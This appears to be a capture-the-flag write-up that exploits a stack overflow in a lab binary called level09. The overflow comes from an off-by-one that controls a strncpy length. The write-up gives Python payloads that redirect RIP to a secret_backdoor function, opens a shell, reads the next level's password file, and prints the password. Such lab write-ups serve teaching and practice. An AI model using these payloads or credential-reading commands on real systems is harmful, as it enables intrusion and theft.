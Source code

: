 # Level09

## Setup

We find a binary file at the root of the user **`level09`** named *`./level09`*.

```bash
scp -r -P 4242 level09@<vm_ip>:/home/users/level09/level09 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Source
```C
char v1[140]
...
set_username((__int64)v1);
set_msg((__int64)v1);

int set_username(__int64 a1) {
	char s[140];
	int i;
	...
	fgets(s, 128, stdin);
	for ( i = 0; i <= 40 && s[i]; ++i )
	*(_BYTE *)(a1 + i + 140) = s[i];
	return printf(">: Welcome, %s", (const char *)(a1 + 140));
}
```

set_username writes 41 characters of s (our inputed username) in &v1[140] (it doesn't segfault somehow but it's not the subject)

```C
char *set_msg(__int64 a1) {
	char s[1024];
	...
	fgets(s, 1024, stdin);
	return strncpy((char *)a1, s, *(int *)(a1 + 180));
}
```
set_msg writes with strncpy() a1[180] ***(converted as int because if a1[180] == 0xFF then strncpy writes 0xFF000000 characters) characters of s (our inputed msg) inside &a1[0], we can overflow and retrieve the address eip points to (Here it is not EIP anymore because it is a 64 bits program, it becomes RIP) with info frame, we have our offset that way


## bash
```bash
> python -c "print 'A'*40 + '\xff\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A'" > /tmp/payload09
```
## gdb
```bash
> r < <(cat /tmp/payload09)
Segfault...
> info frame
...
saved rip 0x4138674137674136
...
```

0x4138674137674136 = offset at 200

It appears we also have a beautiful function called secret_backdoor() which calls gets() then system({our input}) \
Let's redirect RIP to secret_backdoor() \
```bash	
> p secret_backdoor
... 0x55555555488c <secret_backdoor> (we add 0000 as we write a 64 bits address)
```
## Payload
```bash
> python -c "print 'A'*40 + '\xff\n' + 'A'*200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1]" > /tmp/payload09
> cat /tmp/payload09 - | ./level09
> /bin/sh
> cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```